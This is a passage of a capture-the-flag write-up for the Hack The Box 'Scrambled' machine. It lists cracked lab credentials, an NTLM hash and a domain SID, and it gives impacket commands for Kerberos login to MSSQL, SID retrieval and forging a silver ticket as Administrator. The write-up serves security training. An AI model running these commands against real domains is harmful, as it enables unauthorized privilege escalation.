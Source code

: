 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/hashcat%20cracked%20SPN.png)
Creds so far
````

ksimpson:ksimpson
sqlsvc:Pegasus60:b999a16500b87d17ec7f2e2a68778f05 
SPN:MSSQLSvc/dc1.scrm.local
domainSID:S-1-5-21-2743207045-1827831105-2542523200

`````

### microsoft sql server on port 1433
````
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 

`````

### trying login to mssql server
````
sudo python3 mssqlclient.py DC1.scrm.local -k

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/microsoft%20sql%20server%20login%20attempt.png)

### generate NTLM hash of password:Pegasus60
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/generate%20ntlm%20hash.png)

### two lowercase cyberchef
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/ntlm%20lowercase.png)

### getting the domain SID
````
python3 getPac.py -targetUser ksimpson scrm.local/ksimpson:ksimpson

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/domain%20SID.png)

````
domain SID: S-1-5-21-2743207045-1827831105-2542523200

`````

### creating silver ticket impacket
````bash
sudo python3 ticketer.py -domain scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 -user-id 500 Administrator -spn MSSQLSvc/dc1.scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200

export KRB5CCNAME=Administrator.ccache

`````
